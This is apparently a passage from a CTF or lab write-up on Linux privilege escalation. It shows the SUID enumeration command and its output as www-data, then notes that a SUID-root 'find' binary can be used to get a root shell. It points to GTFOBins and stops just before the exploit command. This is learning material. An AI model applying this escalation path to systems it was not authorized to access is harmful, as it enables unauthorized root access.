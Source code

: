 as follow..

```
$find / -perm -u=s -type f 2>/dev/null
#or you can use
$find / -perm /4000
```
[what is this command?frist one](https://www.explainshell.com/explain?cmd=find+%2F+-perm+u%3Ds+2%3E+%2Fdev%2Fnull)
[what is this command?second one](https://www.explainshell.com/explain?cmd=find+%2F+-perm+%2F4000)
```
output>
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
user:www-data
```

>i got mistake there too.
>i think may the procmail is the key
>but actually not;
>

#### tips

>so how i got this idea?(means to use the suid)
>
> it is TOP2 easiest way to get  shell(one is sudo)
>
>recommend one [site](https://gtfobins.github.io/#) for wrong settings to privilege users
>
>use it as an cheatsheet...have fun~
>
>so you can easily find the `find` command suid to root it.

command is following.

## use find command level up
